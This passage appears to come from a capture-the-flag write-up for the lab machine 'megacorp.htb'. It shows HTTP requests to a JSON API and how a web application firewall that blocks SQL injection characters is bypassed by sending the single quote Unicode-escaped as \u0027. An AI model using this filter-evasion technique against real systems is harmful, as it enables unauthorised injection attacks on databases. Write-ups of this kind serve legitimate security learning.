 Looking at the email domain `@megacorp.htb`, I'd better put `megacorp.htb` into `/etc/hosts` as well.

### Bypassing the WAF

Playing with the API for a while, I soon realized that a web application firewall (WAF) appears to be sitting in front of the application server.

**Request**

```
POST /api/getColleagues HTTP/1.1
Host: megacorp.local
User-Agent: curl/7.68.0
Accept: */*
Content-Type: application/json
Content-Length: 12
Connection: close

{"name":"'"}
```

**Response**

```
HTTP/1.1 403 Forbidden
Content-Type: text/html
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET
Date: Sat, 21 Mar 2020 14:10:01 GMT
Connection: close
Content-Length: 1233
```

Using any of the usual SQL injection character or keywords such as a single quote (`'`), `SELECT`and `UNION` results in a **403 Forbidden**. In addition, if you send requests to the application server at a fast rate , **403 Forbidden** errors are also observed.

Digging into the specifications of JSON, I noted that JSON only accepts Unicode character encodings for request and response, e.g. UTF-8, UTF-16 and UTF-32, with UTF-8 being the default for best compatibility.

Armed with this insight, I observed that when a single quote (`'`) is encoded as `\u0027`, the WAF merrily accepts it and send it to the application server for processing.

**Request**

```
POST /api/getColleagues HTTP/1.1
Host: megacorp.local
User-Agent: curl/7.68.0
Accept: */*
Content-Type: application/json
Content-Length: 17
Connection: close

{"name":"\u0027"}
```
